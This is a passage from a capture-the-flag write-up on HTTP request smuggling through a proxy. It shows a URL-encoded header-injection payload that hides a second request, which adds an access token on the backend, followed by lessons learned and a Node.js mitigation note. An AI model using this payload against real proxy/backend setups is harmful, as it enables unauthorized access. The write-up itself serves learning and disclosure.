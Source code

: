 So we can use the payload from above with LF (url encoded = `%0a`) line separator.

As said above, this will be the HTTP inside our token value:

```
tokenValue123
Content-Type: text/plain
Content-Length: 0
Connection: Keep-Alive


GET /add-token?token=ourNewAccessToken
Host: back:8080
```

Replacing line separator with `%0a` and space with `+` gives:

`tokenValue123%0aContent-Type:+text/plain%0aContent-Length:+0%0aConnection:+Keep-Alive%0a%0a%0aGET+/add-token?token=ourNewAccessToken%0aHost:+back:8080
`

When using this payload, we get the following response:

![](img/flagproxy4_exploit.png)

Now we can get the flag with the token we just set:

![](img/flagproxy5_flag.png)

`flag{sanity_check}`

## Lessons learned
I learned details about HTTP specification and that request smuggling vulnerabilities can arise not only from Content Length vs. Transfer Encoding Headers but also from other circumstances in proxy/backend server architectures that, when sending one request to the proxy server, enable crafting a second request inside of the first one. 

## Additional notes and mitigation of the vulnerability

This exploit was disclosed on the hackerone bug bounty platform for the node.js version 17.8.0:
[https://hackerone.com/reports/1524692](https://hackerone.com/reports/1524692)

Mitigating the vulnerability could be achieved by updating node.js version.

The following is interesting to remember for HTTP/2 (since the challenge was not using HTTP/2 though, it did not affect the exploit):
![](img/flagproxy6_http2.png)